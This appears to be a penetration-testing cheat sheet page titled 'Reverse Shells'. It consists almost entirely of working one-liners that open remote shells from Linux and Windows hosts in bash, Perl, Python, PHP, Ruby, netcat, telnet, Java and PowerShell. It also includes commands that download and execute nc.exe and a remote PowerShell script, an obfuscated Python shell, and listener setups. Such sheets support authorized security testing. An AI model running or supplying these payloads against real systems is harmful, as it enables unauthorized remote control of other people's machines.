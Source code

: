 ```yaml
---
layout: default
title: Reverse Shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - ruby
    - telnet
    - xterm
---
```

# Reverse Shells

## Linux
**Bash**

```shell
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/[IP]/[PORT]; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/[IP]/[PORT] 0>&1
```
- UDP, use `-u` flag with nc for catching locally

**Perl**

```shell
perl -e 'use Socket;$i="[IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

**Python**

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```shell
php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby**

```shell
ruby -rsocket -e'f=TCPSocket.open("[IP]",[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

**Netcat**

```shell
nc -e /bin/sh [IP] [PORT]
```

```shell
/bin/sh | nc [IP] [PORT]
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
- no `-e` flag

**Telnet**

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```

```shell
telnet [IP] [PORT1] | /bin/bash | telnet [IP] [PORT2]
```
- listen locally on [PORT2]

**Java**

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

**xterm**

```shell
xterm -display [IP]:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +[TARGETIP]`

---

## Windows
**Netcat**

Upload nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
```powershell
powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
```
```powershell
powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
```
```powershell
powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
```
```powershell
curl -o nc.exe http://10.10.10.10/nc.exe
```

Execute
```powershell
nc -e powershell 10.10.10.10 9999
```
```powershell
nc -e cmd 10.10.10.10 9999
```

**Perl**

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IP]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Download and execute remote PS file and execute (e.g. Nishang)
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev-shell.ps1')
```

**Python**

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('[IP]', [PORT])), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**Ruby**

```powershell
ruby -rsocket -e 'c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

## Catching Shells
**Metasploit**

```shell
use exploit/multi/handler
```

**Netcat**

```shell
nc -lvnp [PORT]
```
- can use `-vv`/`-vvv` to debug with extra verbosity

## Useful links
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
